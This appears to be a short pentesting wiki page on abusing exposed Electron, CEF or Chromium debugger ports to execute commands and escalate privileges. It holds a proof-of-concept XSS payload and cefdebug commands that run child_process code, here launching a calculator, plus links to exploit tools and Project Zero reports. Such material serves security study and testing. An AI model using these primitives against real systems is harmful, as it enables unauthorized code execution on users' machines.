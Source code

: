 # electron/CEF/chromium debugger abuse

If you find any process with **electron, cef or chromium debugger running** and listening to a port you should try to make the **debugger execute arbitrary commands**.\
Abusing this behaviour you **could be able to escalate privileges**.

The abuse of this vulnerability remotely could be as easy as injecting via XSS this line of JS:

```markup
<img src="http://localhost:40000/json/new/?javascript:require('child_process').spawnSync('calc.exe')">
```

But obviously the exploitation will be **much easier locally**, as you can use a tool such as: [**https://github.com/taviso/cefdebug**](https://github.com/taviso/cefdebug)****

```bash
#List possible vulnerable sockets
./cefdebug.exe
#Check if possibly vulnerable
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
#Exploit it
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc')"
```

List of resources to pwn electorn apps: [https://github.com/doyensec/awesome-electronjs-hacking](https://github.com/doyensec/awesome-electronjs-hacking)

## References

* [https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s](https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s)
* [https://github.com/taviso/cefdebug](https://github.com/taviso/cefdebug)
* [https://iwantmore.pizza/posts/cve-2019-1414.html](https://iwantmore.pizza/posts/cve-2019-1414.html)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=773](https://bugs.chromium.org/p/project-zero/issues/detail?id=773)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1742](https://bugs.chromium.org/p/project-zero/issues/detail?id=1742)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1944](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944)
